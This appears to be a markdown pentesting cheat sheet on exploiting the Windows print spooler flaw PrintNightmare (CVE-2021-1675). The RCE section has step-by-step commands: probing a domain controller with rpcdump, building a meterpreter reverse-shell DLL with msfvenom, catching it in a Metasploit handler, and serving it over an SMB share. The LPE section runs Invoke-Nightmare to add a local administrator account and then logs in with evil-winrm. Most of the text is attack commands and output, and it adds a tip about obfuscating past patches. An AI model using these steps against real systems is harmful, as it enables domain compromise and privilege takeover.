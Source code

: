 # PrintNightmare

## PrintNightmare (CVE-2021-1675) - RCE

- Takes advantage of printer spooler that runs as sys priv
- Check if our target is vulnerable `rpcdump.py @DOMAIN-CONTROLLER-IP | egrep 'MS-RPRN|MS-PAR'`
- Create a malicious dll to run it along the py file from the resource `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKING-MACHINE-IP LPORT=4444 -f dll > shell.dll` 
  ```
  ┌──(root💀kali)-[/home/kali]
  └─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.8 LPORT=4444 -f dll > shell.dll                                                                                                           2 ⨯
  [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
  [-] No arch selected, selecting arch: x64 from the payload
  No encoder specified, outputting raw payload
  Payload size: 510 bytes
  Final size of dll file: 8704 bytes
  ```
- run `msfconsole` to catch the shell `use multi/handler` `set payload windows/x64/meterpreter/reverse_tcp` set LHOST and LPORT
- setup a file share with smbserver.py (Impacket): `smbserver.py share 'pwd' -smb2support` (will share current working dir)
- Run the exploit `python3 exploit.py domain.local/username:password@DOMAIN-CONTROLLER-IP-ADD '\\ATTACKING-MACHINE-IP\share\shell.dll'`
- We should get a shell

*Note: With patches it might be necessary to use obfuscations techniques*

## - PrintNightmare - LPE

- Create an user admin from the compromised machine:
```
*Evil-WinRM* PS C:\Users\user\Documents> Import-Module .\CVE-2021-1675.ps1
[STRIPPED]
*Evil-WinRM* PS C:\Users\user\Documents> Invoke-Nightmare -NewUser "adminhackr" -NewPassword "adminhackr1!" -DriverName "PrintMe"
[STRIPPED]
[+] created payload at C:\Users\user\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_19a3fe50fa9a21b6\Amd64\mxdwdrv.dll"
[+] added user adminhackr as local administrator
[+] deleting payload from C:\Users\user\AppData\Local\Temp\nightmare.dll
```

- We launch evilwinrm with this new user and we have an admin shell:
```
┌──(kali㉿kali)-[~]
└─$ proxychains evil-winrm -i 172.16.2.5 -u adminhackr -p adminhackr1!                                                                                                                               76 ⨯
[STRIPPED]
Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  172.16.2.5:5985  ...  OK
*Evil-WinRM* PS C:\Users\adminhackr\Documents> 
```

### PrintNightmare - Resources

- [cube0x0 RCE](https://github.com/cube0x0/CVE-2021-1675)
- [calebstewart LPE](https://github.com/calebstewart/CVE-2021-1675)
- [Playing with PrintNightmare - 0xdf hacks stuff](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html#target)
- [PrintNightmare - TheMayor Pentesting notes](https://themayor.notion.site/d7a4f698bd2d453cbb55a60c6458542e?v=ec41d2f3c44743949e47237c03e82b1b&p=136a31bb0933493d852f3b9d38e8544f)
